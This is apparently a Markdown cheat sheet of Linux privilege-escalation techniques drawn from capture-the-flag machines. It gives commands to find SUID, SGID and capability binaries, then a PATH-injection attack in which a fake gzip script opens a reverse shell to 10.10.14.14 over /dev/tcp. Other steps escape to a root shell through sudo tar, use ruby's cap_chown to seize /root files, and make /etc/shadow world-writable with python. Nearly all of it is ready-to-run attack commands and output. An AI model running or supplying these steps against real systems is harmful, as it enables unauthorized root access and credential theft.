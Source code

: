 
## Finding SUID 
```
find / -type f -perm /4000 2>/dev/null
```
or 
```
find / -type f -perm -u=s 2>/dev/null
```


## Finding HUID 
```
find / -type f -perm /2000 2>/dev/null
```
or 
```
find / -type f -perm -g=s 2>/dev/null
```

## Finding Capabilities
```
getcap -r / 2>/dev/null
```


## Path Injection With Sudo nopasswd

```
m4lwhere@previse:/tmp$ sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

```
m4lwhere@previse:/tmp$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

```
m4lwhere@previse:/tmp$ cat gzip
#!/bin/bash

bash -c "sh -i >& /dev/tcp/10.10.14.14/9002 0>&1"
```

```
m4lwhere@previse:/tmp$ chmod +x gzip
```

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
```

```
m4lwhere@previse:/tmp$ sudo -u root /opt/scripts/access_backup.sh
```


##  Privesc with sudo /bin/tar

ref:- https://tryhackme.com/room/cowboyhacker

```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

gtfobin:- https://gtfobins.github.io/gtfobins/tar/#sudo

```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# 
```


## with capabilities ruby 

ref:- https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_chown

```
/usr/local/bin/ruby = cap_chown+ep
```
![rubyCapChown.png](rubyCapChown.png)

pass id of user which is 1002 and location and get access to that file
```ruby
ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root")'
```

```bash
george@empline:/root$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/root/root.txt")'
george@empline:/root$ cat root.txt 
74fea7cd0556e9c6f22e6f54bc68f5d5
george@empline:/root$ 
```

python:-
```python
python -c 'import os;os.chmod("/etc/shadow",0666)
```
